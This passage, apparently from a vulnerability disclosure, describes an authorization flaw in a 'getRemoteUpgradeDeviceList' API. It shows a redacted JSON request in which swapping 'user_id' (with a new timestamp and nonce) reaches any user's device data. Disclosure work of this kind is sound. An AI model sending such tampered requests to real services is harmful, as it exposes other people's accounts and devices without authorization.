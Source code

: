 ![k2](pics/k2.png)

The encrypted payload is then injected in the debugger via the console and the request is sent.

4. By modifying the `user_id` in the `getRemoteUpgradeDeviceList` request, any user can be targeted (timestamp and nonce have to be adapted):

```json
{
    "sys_code": 0,
    "psIds": "",
    "device_type": 1,
    "device_model_id": "",
    "device_sn": "",
    "user_id": [targeted_user_id],
    "ps_id_list": [],
    "sn_list": [],
    "uuid_list": [],
    "curPage": 1,
    "size": 10,
    "service": "getRemoteUpgradeDeviceList",
    "api_key_param": {
        "timestamp": [timestamp],
        "nonce": "[NONCE]"
    },
    "appkey": "XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX",
    "_vc": "XXXXXXXXXX",
    "token": "xxxxxx_xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx"
}
```
